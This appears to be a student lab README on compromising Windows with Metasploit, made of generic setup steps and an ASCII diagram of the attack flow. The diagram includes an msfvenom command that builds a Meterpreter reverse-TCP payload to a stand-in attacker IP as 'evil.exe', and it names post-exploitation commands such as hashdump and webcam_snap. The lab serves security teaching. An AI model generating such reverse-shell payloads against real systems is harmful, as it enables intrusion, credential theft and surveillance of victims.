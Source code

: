 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By :Yashaswini S

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```
